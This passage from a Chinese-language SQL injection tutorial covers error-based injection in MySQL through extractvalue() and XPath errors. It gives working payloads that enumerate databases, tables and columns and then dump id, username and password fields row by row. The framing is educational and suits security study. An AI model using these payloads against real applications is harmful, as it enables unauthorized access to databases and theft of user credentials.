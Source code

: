 



### 4.3 报错注入

mysql可以利用xpath语法错误进行报错注入。

**（1）extractvalue()**

关键函数：`extractvalue(1,[要执行的SQL语句])`

在下列语句中，`0x7e`即为`~`。

```mysql
select * from users where id=1 
and extractvalue(1,concat(0x7e,database(),0x7e))-- 
```

```mysql
select * from users where id=1 
and extractvalue(1,concat(0x7e,(select @@version_compile_os),0x7e))-- 
```

+ 爆库

extract_value()函数报错显示的字符有长度限制，因此可以使用`limit [offset] [rows]`，将[offset]从0遍历到最大即可获取全部数据库名。

```mysql
select * from users where id=1 and extractvalue(1,concat(0x7e,database(),0x7e))-- 
```

```mysql
select * from users where id=1 and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e))-- 
```

+ 爆表

```mysql
select * from users where id=1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),0x7e))-- 
```

+ 爆列

```mysql
select * from users where id=1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),0x7e))-- 
```

+ 爆字段

通过`concat(id,'~',username,'~',passwd)`，可以按照对应关系爆出id、username、passwd字段值。

```mysql
select * from users where id=1
and extractvalue(1,concat(0x7e,(select concat(id,0x7e,username,0x7e,passwd) from 数据库名.表名 limit 0,1),0x7e))-- 
```

数据库中往往存在多条字段，可以通过`limit n,1`逐条爆出。

如果字段过长，可以使用`substr([offset],[length])`、`substring()`截取字符串。例如在如下SQL注入语句中，`substr(..,1,10)`的含义是从第一个字符开始截取10个字符。
